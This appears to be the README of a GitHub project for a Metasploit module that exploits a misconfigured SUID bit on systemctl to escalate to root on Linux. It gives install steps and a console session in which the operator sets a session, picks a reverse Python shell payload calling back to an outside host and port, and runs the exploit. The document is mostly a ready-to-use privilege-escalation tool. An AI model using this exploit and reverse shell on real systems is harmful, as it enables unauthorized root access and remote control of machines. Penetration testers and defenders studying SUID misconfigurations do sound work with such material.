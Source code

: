 # SUID systemctl Exploit (MSF - Metasploit exploit module)

### Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl binary to escalate privileges 
  & get a root shell!

### Install
  1 : copy the suid_systemctl.rb to ~/.msf4/modules/exploits/linux/local/ folder
  
  2 : reload all modules at msf console, type reload_all 
  
### Usage 
```
msf5 exploit(linux/local/suid_systemctl) > info

       Name: SUID systemctl Exploit
     Module: exploit/linux/local/suid_systemctl
   Platform: Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  0xl0v3r

Available targets:
  Id  Name
  --  ----
  0   Command payload

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION      13               yes       The session to run this module on.
  WritableDir  /dev/shm         yes       A directory where we can write files
  systemctl    /bin/systemctl   yes       Path to systemctl executable

Payload information:

Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl 
  binary to escalate privileges & get a root shell!

References:
  https://gtfobins.github.io/gtfobins/systemctl/
  https://github.com/Code-L0V3R/suid_systemctl

msf5 exploit(linux/local/suid_systemctl) > set session 13
session => 13
msf5 exploit(linux/local/suid_systemctl) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/suid_systemctl) > set lhost 10.10.15.163 
lhost => 10.10.15.163
msf5 exploit(linux/local/suid_systemctl) > set lport 13372
lport => 13372
msf5 exploit(linux/local/suid_systemctl) > exploit 
```

<img src='systemctl-poc.png' alt="POC">

### References: 
  https://gtfobins.github.io/gtfobins/systemctl/
  
# GG
